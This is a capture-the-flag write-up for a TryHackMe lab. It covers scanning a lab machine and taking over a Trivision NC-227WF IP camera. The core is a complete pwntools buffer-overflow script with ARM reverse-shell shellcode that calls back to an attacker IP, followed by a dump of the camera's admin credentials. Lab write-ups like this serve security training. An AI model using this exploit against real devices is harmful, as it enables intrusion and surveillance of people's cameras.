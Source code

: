 # Snowy ARMageddon
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/f54ecb7d1f43f336714d5b8363d02834.png" height="150">

## Breaching the CyberPolice perimeter
Ho ho, lads and lasses! Van Spy's whispers are golden! By pickin' apart the packet data we've sniffed out a mysterious device in the CyberPolice building. Seems like this old thing's been forgotten in their tech upgrade blizzard. It's as neglected as a lone iceberg.

This clunky old device is a buzzin', ripe for the pickin'. If we can get our claws into this enigmatic device, we'll have ourselves a sly backdoor right into the CyberPolice's icy fortress. Imagine the treasure troves of secrets just waitin' to be plundered! And oh, the cherry on top – we might just finagle our way into Frost-eau's laptop. That'll spill the beans on this Best Festival Company and AntarctiCrafts merger. McSkidy, that clever elf who snagged me last time, ought to keep an eye over her shoulder!

Remember, though, nothin' in the South Pole comes easy. But am I, the Bandit Yeti, the one to back down from a challenge? Never! Let's roll up our sleeves and dive into this digital snowstorm. The Bandit Yeti don't wait for no winter!

### The Yeti Hints!
Alright, my frosty friend, it's time to gear up for a simulated red team engagement. Think like the Yeti – be stealthy, keep it low-profile. We're treadin' through digital snow here, so make sure to minimize any detectable noise. It's like stalkin' a penguin in a blizzard; you gotta be silent, you gotta be sneaky. Now, if you get noisy at any point, don't get all ruffled if you hit a wall and find yourself blocked. It happens to the best of us, even the Bandit Yeti. Sometimes you gotta backtrack to the start, rethink your strategy. It's all part of the icy dance.

Your main target? Access that internal-only web application. That's where the juicy stuff is hidden. Now, gettin' full privileges on the machine – that's a tasty bonus, but don't sweat it if it's out of reach. The key is to complete the mission without kickin' up a snowstorm.

Remember, this is all about bein' as silent as the falling snow and as cunning as the arctic fox. Ready? Let's dive into this digital blizzard and show 'em what the Bandit Yeti's made of!

### Questions
1. What is the content of the first flag?
2. What is the content of the `yetikey2.txt` file?

## Writeup

### Reconaissance
First things first, let's launch the challenge VM and see what ports we have open.
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:43:0f:fe:f5:6f:02:d6:92:1d:42:fe:10:3c:31:05 (RSA)
|   256 d7:16:80:64:ed:1e:29:4a:87:94:63:5a:fe:f1:be:8e (ECDSA)
|_  256 8b:e5:fd:06:3e:be:15:1a:0b:a9:a8:e4:98:26:80:35 (ED25519)
23/tcp    open  tcpwrapped
8080/tcp  open  http       Apache httpd 2.4.57 ((Debian))
|_http-title: TryHackMe | Access Forbidden - 403
|_http-server-header: Apache/2.4.57 (Debian)
50628/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### Port 22 - SSH
We don't have much to exploit this yet.

#### Port 23
Port 23 is normally utilized by Telnet.  Tried connecting with `nc -v $IP 23`, but the server killed the connection immediately; tried this a few times with the same result.  Maybe we'll come back to this later.

#### Port 8080
Seems to be some sort of protection on this website.  Without any further enumeration or use of tools, every attempt to poke around the website leads me to the following error:
![only elves](sq2-pic1.png)

#### Port 50628
A quick check of this port yields something potentially useful!  Seems we have a Trivision NC-227WF HD 720P.
![webcam](sq2-pic2.png)

### IP Camera Exploitation
A quick Google search for Trivision 227WF exploits brings me to https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html. This blog post mentions about 7 potential exploits worth checking out:

* CVE-2017-8224 - Backdoor account
* CVE-2017-8222 - RSA key and certificates
* CVE-2017-8225 - Pre-Auth Info Leak (credentials) within the custom http server
* Authenticated RCE as root
* Pre-Auth RCE as root
* CVE-2017-8223 - Misc - Streaming without authentication
* CVE-2017-8221 - Misc - "Cloud" (Aka Botnet)

Unfortunately, none of these really seemed to pan out.  Started digging deeper, and included the ARM architecture clue in the room name into my searches.  I came across the following write-up: https://no-sec.net/arm-x-challenge-breaking-the-webs/.  Same camera, bingo!

Looking at their assembly and related python script, it seems the callback to the reverse shell is hard coded in.  We need to find a way to use our VPN IP, which of course contains a `10` (`0x0a` which is a bad character).  Here's the original assembly vs. my modification:
```asm
22      mov r1, #0x164
23      lsl r1, #8
24      add r1, #0xa8
25      lsl r1, #8
26      add r1, #0xc0
27      push {r1}       // 192.168.100.1
```
```asm
mov r1, #0xe6	// 230
lsl r1, #8
add r1, #0x1b	// 27
lsl r1, #8
add r1, #0x06	// 6
lsl r1, #8
add r1, #0x08
add r1, #0x02   // (2+8, 10 is bad char)
push {r1}       // 10.6.27.230
```
Now, let's convert the ARM assembly into shellcode and update the python script.  A good tool for this can be found here: https://shell-storm.org/online/Online-Assembler-and-Disassembler/
```python
from pwn import *
   
HOST = '10.10.162.234'
PORT = 50628
LHOST = [10,6,27,230]
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\xe6\x10\xa0\xe3' # mov r1, #0xe6 (230)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x1b\x10\x81\xe2' # add r1, #0x1b (27)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x06\x10\x81\xe2' # add r1, #0x06 (6)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x08\x10\x81\xe2' # add r1, #0x08
SC += b'\x02\x10\x81\xe2' # add r1, #0x02 (2+8 = 10)
SC += b'\x04\x10\x2d\xe5' # push {r1} (10.6.27.230)
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, PORT)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
After script execution, we get our reverse shell... time to poke around for something useful.  A few minutes of searching, and voila, `/var/etc/umconfig.txt`.  This file gives us what I hope is the login to the IP camera stream:
```
u = admin
pass = Y3tiStarCur!ouspassword=admin
```
![webcam-feed](sq2-pic3.png)
